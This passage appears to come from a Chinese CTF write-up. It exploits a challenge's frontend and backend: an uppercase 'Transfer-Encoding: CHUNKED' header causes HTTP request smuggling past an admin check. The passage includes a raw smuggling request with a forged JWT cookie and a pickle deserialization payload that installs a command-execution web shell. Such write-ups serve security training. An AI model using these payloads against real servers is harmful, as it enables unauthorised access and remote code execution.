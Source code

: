 ```python
# 前端
if headers.get("Transfer-Encoding", "").lower() == "chunked":
    data = "{}\r\n{}\r\n0\r\n\r\n".format(hex(len(data))[2:], data.decode())
    if "BackdoorPasswordOnlyForAdmin" not in data:
        return "You are not an admin!"
    conn.request(method, "/backdoor", body=data, headers=headers)
    return "Done!"
else:
    return "You are not an admin!"

# 后端
class backdoor:
    def POST(self):
        data = web.data()
        print(f"data: {data}")
        # fix this backdoor
        if b"BackdoorPasswordOnlyForAdmin" in data:
            return "You are an admin!"
        else:
            data  = base64.b64decode(data)
            pickle.loads(data)
            return "Done!"
```

> 注意到前端拼接chunk data前判断Transfer-Encoding 特意转了小写，这说明flask底层处理http报文不会将其转小写（否则这就是多此一举）。
>
> 盲猜一把大写绕过。
>
> 现在就是前端走TE解析，后端走CL解析。

构造如下的包：

前端Flask会识别`Transfer-Encoding: CHUNKED`，从而解析到后面的`BackdoorPasswordOnlyForAdmin`。

后端web会识别`Content-Length: payload长度`，从而抛弃后面的`BackdoorPasswordOnlyForAdmin`。

```
POST /admin HTTP/1.1
Host: 47.103.122.127:30915
cookie:
token=eyJhbGciOiJIUzI1NiIsImtpZCI6Ii4uL2Rldi9udWxsIiwidHlwIjoiSldUIn0.ey
J1c2VybmFtZSI6InA0ZDBybiIsImlzYWRtaW4iOnRydWV9.0V1NFzZpxPFENM1DEi-
QvlmS_kl6a5trQY2y9hObUys
Content-Length: payload长度
Transfer-Encoding: CHUNKED
payload长度
payload...
1c
BackdoorPasswordOnlyForAdmin
```

最后利用后端服务器的`pickle`。

```python
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
a = dict_get(builtins, '__builtins__')
exec = getattr(a, 'exec')
exec('index.GET = lambda self:__import__("os").popen(web.input().cmd).read()')
return
```
